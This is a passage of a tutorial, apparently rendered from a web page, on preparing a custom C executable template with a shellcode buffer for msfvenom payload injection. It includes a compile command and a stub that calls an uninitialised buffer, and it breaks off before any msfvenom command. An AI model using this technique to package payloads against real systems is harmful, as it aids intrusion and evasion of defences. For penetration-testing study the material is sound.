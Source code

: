 Compile this program to generate an executable:
```bash
gcc -o template.exe template.c
```

This `template.exe` file will serve as the basis for your template.

### 3. **Identify a Placeholder for Shellcode**

You need to modify your simple executable so that it contains a placeholder for the shellcode. There are a few ways to do this:

- **Static Buffer**: Declare a buffer of a fixed size in your program where the shellcode will be injected.
- **NOP Sled**: Fill part of your binary with NOP (No Operation) instructions (`0x90` in x86 assembly), which can be overwritten with shellcode.

#### Example: Adding a Static Buffer
Modify your C program to include a buffer that will serve as the placeholder:

```c
#include <stdio.h>

int main() {
    unsigned char shellcode[256];  // Buffer to hold shellcode (256 bytes)
    
    // Simple message to indicate the template is running
    printf("This is a template. Shellcode will be injected here.\n");
    
    // Trigger for shellcode execution (this can be overwritten by the injected shellcode)
    ((void(*)())shellcode)();
    
    return 0;
}
```

Recompile the program:
```bash
gcc -o template.exe template.c
```

### 4. **Prepare the Template**

Ensure that your executable is correctly structured and that the buffer or placeholder is positioned in the binary where you want to inject the shellcode.

### 5. **Test the Template**

Before using the template with `msfvenom`, you should test the executable to ensure it works correctly without the shellcode. This ensures that the binary will run as expected once the shellcode is injected.

### 6. **Use the Template with `msfvenom`**

Once your template is ready, you can use it with `msfvenom` to inject the shellcode. Here's how you do it:
